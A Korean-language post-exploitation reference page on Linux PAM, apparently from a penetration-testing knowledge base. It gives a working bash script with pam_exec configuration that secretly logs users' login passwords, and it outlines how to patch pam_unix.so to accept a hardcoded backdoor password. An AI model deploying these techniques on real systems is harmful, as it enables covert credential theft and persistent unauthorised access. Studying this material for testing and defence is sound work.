 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## PAM을 이용한 로그인 비밀번호 스니핑

각 사용자가 로그인할 때 사용하는 비밀번호를 기록하기 위해 PAM 모듈을 구성해 보겠습니다. PAM이 무엇인지 모른다면 다음을 확인하세요:

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**자세한 내용은 [원본 게시물](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)을 확인하세요**. 이것은 요약입니다:

**기술 개요:**
플러그형 인증 모듈(PAM)은 Unix 기반 시스템에서 인증 관리를 유연하게 제공합니다. 로그인 프로세스를 사용자 정의하여 보안을 강화할 수 있지만, 잘못 사용될 경우 위험을 초래할 수 있습니다. 이 요약은 PAM을 사용하여 로그인 자격 증명을 캡처하는 기술과 완화 전략을 설명합니다.

**자격 증명 캡처:**

- `toomanysecrets.sh`라는 이름의 bash 스크립트가 로그인 시도를 기록하도록 작성되어, 날짜, 사용자 이름(`$PAM_USER`), 비밀번호(표준 입력을 통해), 원격 호스트 IP(`$PAM_RHOST`)를 `/var/log/toomanysecrets.log`에 캡처합니다.
- 이 스크립트는 실행 가능하게 만들어지고, `pam_exec.so` 모듈을 사용하여 PAM 구성(`common-auth`)에 통합되며, 조용히 실행하고 인증 토큰을 스크립트에 노출하는 옵션이 포함됩니다.
- 이 접근 방식은 손상된 Linux 호스트가 자격 증명을 은밀하게 기록하는 데 어떻게 악용될 수 있는지를 보여줍니다.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM 백도어 만들기

**자세한 내용은 [원본 게시물](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)을 확인하세요**. 이것은 요약입니다:

플러그형 인증 모듈(PAM)은 리눅스에서 사용자 인증을 위해 사용되는 시스템입니다. 이는 **사용자 이름**, **비밀번호**, **서비스**라는 세 가지 주요 개념에서 작동합니다. 각 서비스의 구성 파일은 `/etc/pam.d/` 디렉토리에 위치하며, 여기서 공유 라이브러리가 인증을 처리합니다.

**목표**: 특정 비밀번호로 인증을 허용하도록 PAM을 수정하여 실제 사용자 비밀번호를 우회합니다. 이는 비밀번호 검증을 위해 거의 모든 서비스에서 포함되는 `common-auth` 파일에서 사용되는 `pam_unix.so` 공유 라이브러리에 특히 중점을 둡니다.

### `pam_unix.so` 수정 단계:

1. **`common-auth` 파일에서 인증 지시문 찾기**:
- 사용자의 비밀번호를 확인하는 책임이 있는 줄은 `pam_unix.so`를 호출합니다.
2. **소스 코드 수정**:
- 미리 정의된 비밀번호가 사용될 경우 접근을 허용하는 조건문을 `pam_unix_auth.c` 소스 파일에 추가하고, 그렇지 않으면 일반 인증 프로세스를 진행합니다.
3. **수정된 `pam_unix.so` 라이브러리 재컴파일 및 교체**:
- 적절한 디렉토리에 수정된 `pam_unix.so` 라이브러리를 재컴파일하고 교체합니다.
4. **테스트**:
- 미리 정의된 비밀번호로 다양한 서비스(로그인, ssh, sudo, su, 스크린세이버)에 접근이 허용되며, 일반 인증 프로세스는 영향을 받지 않습니다.

> [!NOTE]
> 이 프로세스를 [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)로 자동화할 수 있습니다.

{{#include ../../banners/hacktricks-training.md}}
